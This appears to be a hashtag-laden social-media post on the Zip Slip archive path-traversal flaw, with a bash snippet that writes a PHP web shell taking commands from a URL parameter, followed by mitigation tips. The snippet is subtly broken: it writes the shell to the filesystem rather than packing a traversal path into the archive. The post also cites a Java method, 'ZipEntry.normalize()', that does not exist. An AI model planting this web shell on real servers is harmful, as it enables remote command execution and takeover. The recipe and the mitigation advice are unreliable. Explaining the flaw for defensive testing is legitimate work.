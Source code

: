 
# 🧠 Zip Slip → Arbitrary File Write Exploit

Ever heard of one ZIP file owning the whole server? Let me show you how 👇

## 🔍 What is Zip Slip?

It’s a vulnerability that occurs when:
1️⃣ A web app extracts user-uploaded `.zip` archives  
2️⃣ It doesn’t sanitize the internal file paths  
3️⃣ The `.zip` contains files like:

```
../../../../etc/passwd
../../../../var/www/html/shell.php
```

### Result? 💥
- ➡️ Overwrite system files  
- ➡️ Drop backdoors  
- ➡️ Gain RCE  
- ➡️ Or crash the app with DoS  

## ⚠️ Real-World Impact

- 💎 Web shell planted in a public directory  
- 💎 Defacing websites  
- 💎 Privilege escalation or full server takeover  

## 📁 How to Test

Create a `.zip` archive with:

```bash
mkdir test && cd test
echo "<?php system(\$_GET['cmd']); ?>" > ../../../../var/www/html/shell.php
zip -r payload.zip *
```

Upload to the app. If it extracts without sanitization → **RCE 🎯**

## 🛡 Mitigation

✅ Sanitize extracted file paths  
✅ Use secure zip libraries (e.g., Java’s `ZipEntry.normalize()`)  
✅ Deny path traversal (`../`) in filenames  

---

💡 Stay sharp: Not all uploads are what they seem. Even a `.zip` can be lethal.

🔐 Follow **@cybersecplayground** for more deep hacking insights.

---

#ZipSlip #bugbounty #fileupload #infosec #RCE #cybersecurity #websecurity #pentest #webhacking #cybersecplayground
